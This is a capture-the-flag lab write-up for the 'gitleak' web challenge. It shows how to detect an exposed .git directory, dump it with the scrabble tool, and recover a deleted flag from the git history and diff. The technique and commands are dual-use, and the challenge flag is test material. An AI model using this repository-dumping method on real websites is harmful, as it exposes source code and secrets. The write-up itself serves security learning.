 # Simple Web 0x01(Lab - `gitleak`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9000/

## Exploit - gitleak + basic Git command
1. Use the extension of Firefox(or Google), `Dotgit`, to check if the website actually has `git leak problem`
![](https://i.imgur.com/ZtMbj9z.png)

2.  denny0223/scrabble
To use scrabble tool to leak information
    ```bash!
    $ git clone https://github.com/denny0223/scrabble.git
    $ cd scrabble
    $ sudo ./scrabble http://h4ck3r.quest:9000/
    ```
3. Still no flag
There's `flag.php` but still no flag in there. `HEAD` said `HEAD is now at a0228bd Remove flag.`
Thus, we can look up the history by the command below.
    ```bash!
    $ git log --stat a0228bd
    commit a0228bd6ff968f3eca017125a5434b517ad2a83a (HEAD -> master)
    Author: splitline <tbsthitw@gmail.com>
    Date:   Wed Mar 9 16:23:46 2022 +0800

        Remove flag.

     flag.php | 2 +-
     1 file changed, 1 insertion(+), 1 deletion(-)

    commit 6cfe38db75ec90126f53088ea87c286c83c1bfb3
    Author: splitline <tbsthitw@gmail.com>
    Date:   Wed Mar 9 16:23:15 2022 +0800

        Init

     flag.php  | 5 +++++
     index.php | 1 +
     2 files changed, 6 insertions(+)
    ```
4. Check the difference of commit version
    ```bash!
    $ git diff HEAD <commit-id>
    diff --git a/flag.php b/flag.php
    index d1f8785..5b6cf79 100644
    --- a/flag.php
    +++ b/flag.php
    @@ -1,5 +1,5 @@
     <?php
    -// No flag for you!
- [ ]     +$FLAG = "FLAG{gitleak_is_fun}";
     ?>

     Flag is in the source code.
    \ No newline at end of file
    ```
